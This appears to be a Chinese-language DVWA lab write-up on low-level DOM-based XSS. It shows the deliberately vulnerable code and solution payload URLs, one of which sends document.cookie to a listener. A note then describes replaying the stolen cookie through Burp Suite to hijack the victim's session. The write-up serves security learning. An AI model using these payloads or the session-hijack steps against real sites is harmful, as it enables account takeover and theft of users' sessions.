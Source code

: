 # XSS (DOM) - Low

## View Source

```PHP
<?php

# No protections, anything goes

?> 
```

### View Page Source

```HTML
<form name="XSS" method="GET">
    <select name="default">
        <script>
            if (document.location.href.indexOf("default=") >= 0) {
                var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
                document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
                document.write("<option value='' disabled='disabled'>----</option>");
            }
                
            document.write("<option value='English'>English</option>");
            document.write("<option value='French'>French</option>");
            document.write("<option value='Spanish'>Spanish</option>");
            document.write("<option value='German'>German</option>");
        </script>
    </select>
    <input type="submit" value="Select" />
</form>
```

## Code Review

- 使用前端 *JavaScript* 的 *document.write()* 來動態產生下拉式選單選項
- *lang* 為將 *default=* 後面接的參數切割出來，並做 *decodeURI*

## Answer

- 原本的網址 `http://127.0.0.1/vulnerabilities/xss_d/`
- 選擇 *English* 後的網址 `http://127.0.0.1/vulnerabilities/xss_d/?default=English`
    - 假的，不會真的因為選不同就有不同語言
- 需要搭配社交工程等方法，將構造好的惡意連結誘騙受害者點擊或載入
    - `alert()` 是一個常用的 *XSS PoC*

### Example

```
http://127.0.0.1/vulnerabilities/xss_d/?default=<script>alert(1)</script>
http://127.0.0.1/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
http://127.0.0.1/vulnerabilities/xss_d/?default=<script>window.open("http://0.0.0.0:8000/?cookie=" + document.cookie)</script>
```

- 結果
```HTML
<option value="%3Cscript%3Ealert(1)%3C/script%3E">
    <script>alert(1)</script>
</option>
```

### Note

- 可以使用 *Burp Suite* 的 *Proxy* 來修改發送的 *request* 封包，將 *Cookie* 替換成透過 *XSS* 得到的受害者 *Cookie*，就能直接以受害者的身分使用網站服務，不用進行登入